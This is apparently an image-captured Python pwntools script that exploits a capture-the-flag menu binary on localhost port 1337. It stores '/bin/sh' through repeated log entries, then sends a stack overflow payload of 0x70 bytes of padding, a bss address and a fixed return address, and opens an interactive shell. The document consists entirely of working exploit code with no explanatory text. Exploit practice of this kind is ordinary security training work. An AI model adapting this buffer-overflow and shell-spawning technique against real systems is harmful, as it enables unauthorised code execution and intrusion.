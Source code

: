 ```python
FILE = "./patched"
HOST, PORT = "localhost", 1337

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary


def trace(log_details, check):
    target.sendlineafter(b"Your chocie:", b"1")
    target.sendlineafter(b"You can record log details here: ", log_details)
    target.sendlineafter(b"Do you need to check the records? ", check)


def warn(msg):
    target.sendlineafter(b"Your chocie:", b"2")
    target.sendlineafter(b"[!] Type your message here plz: ", msg)


def exit():
    target.sendlineafter(b"Your chocie:", b"3")


def launch():
    global target
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)


def main():
    launch()

    trace(b"A" * 0x8, b"y")
    trace(b"A" * 0x8, b"y")
    trace(b"A" * 0x8, b"y")
    trace(b"A" * 0x8, b"y")
    trace(b"A" * 0x8, b"y")
    trace(b"A" * 0x8, b"y")
    trace(b"A" * 0x8, b"y")
    raw_input("DEBUG")
    trace(b"A" * 0x10, b"y")
    trace(b"/bin/sh\x00", b"y")

    payload = flat(
        b"A" * 0x70,
        elf.bss(),
        0x401BC7,
    )
    warn(payload)

    target.interactive()


if __name__ == "__main__":
    main()
```
